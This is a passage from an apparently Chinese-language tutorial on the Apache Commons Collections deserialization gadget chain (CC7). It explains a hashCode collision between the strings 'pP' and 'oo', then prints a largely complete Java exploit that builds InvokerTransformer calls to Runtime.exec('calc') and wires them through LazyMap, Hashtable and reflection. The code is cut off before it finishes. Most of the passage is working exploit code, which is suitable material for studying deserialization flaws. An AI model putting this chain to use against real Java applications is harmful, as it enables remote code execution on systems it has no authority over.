 在 hashCode 这个方法中，当我们传入两个字符得时候，加密就变成了`31*ASCII(s1[0]) + ASCII(s1[1])`

我们只要构造两个这个数值相同得字符串就可以绕过

```bash
public int hashCode() {
        int h = hash;
        if (h == 0 && value.length > 0) {
            char val[] = value;

            for (int i = 0; i < value.length; i++) {
                h = 31 * h + val[i];
            }
            hash = h;
        }
        return h;
    }
```

完整 exp

```bash
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);

        Map innerMap1 = new HashMap();
        innerMap1.put("pP", 1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo", 1);

        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("pP");

        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
```